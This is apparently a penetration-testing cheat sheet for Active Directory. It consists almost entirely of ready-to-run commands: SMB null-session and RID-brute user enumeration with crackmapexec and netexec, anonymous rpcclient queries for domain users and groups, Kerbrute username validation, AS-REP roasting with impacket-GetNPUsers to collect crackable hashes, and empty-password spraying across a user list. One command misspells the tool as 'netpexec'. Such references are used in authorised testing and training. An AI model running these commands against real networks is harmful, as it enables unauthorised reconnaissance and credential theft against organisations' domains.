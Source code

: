 # Get the domain users throughout the null sessions
``` shell
crackmapexec smb $IP -u guest -p "" --users
crackmapexec smb $IP -u '' -p "" --users
crackmapexec smb $IP -u guest -p "" --rid-brute
crackmapexec smb $IP -u '' -p "" --rid-brute
netexec smb $IP -u guest -p "" --users
netexec smb $IP -u '' -p "" --users
netexec smb $IP -u guest -p "" --rid-brute
netexec smb $IP -u '' -p "" --rid-brute
```
```shell
rpcclient -U "" -N <target_IP>
```
RPC Commands

```text
> enumdomusers
# ──> every domain user (RID + name)
> enumdomgroups
# ──> every domain group (RID + name)
> enumalsgroups
# ──> built-in local aliases (e.g. Administrators, Users)
> lookupnames BUILTIN\Administrators
# ──> resolve “BUILTIN\Administrators” → SID
> lookupsids S-1-5-32-544
# ──> resolve SID → name
```

# UserName Variation Generator 
[PythonScript](https://github.com/MGamalCYSEC/Active-Directory-Enumeration-and-Attacks/blob/main/AD%20Enumeration/NameVariationGenerator.py)
A Python script that takes an input file containing names, processes each name, and generates the specified variations into an output file. 
```shell
python NameVariationGenerator.py <input_file> <output_file>
```
# Check the usernames list
## From Kali Linux
**Using Kerbrute**
Releases [Link](https://github.com/ropnop/kerbrute/releases/tag/v1.0.3)
```shell
./kerbrute_linux_amd64 userenum -d <Domain.LOCAL> --dc <DC-IP>  users.lst
```
**Perform AS-REP Roasting on a list**
```shell
impacket-GetNPUsers -dc-ip <DomainController_IP>  -no-pass -usersfile <user.lst> -outputfile <output_file> <Domain/>
```
**Check SMB Null Session On a List**
**Using Crackmapexec/netexec**
```shell
crackmapexec smb sauna -u users.lst -p '' --continue-on-success
netpexec smb sauna -u users.lst -p '' --continue-on-success
```

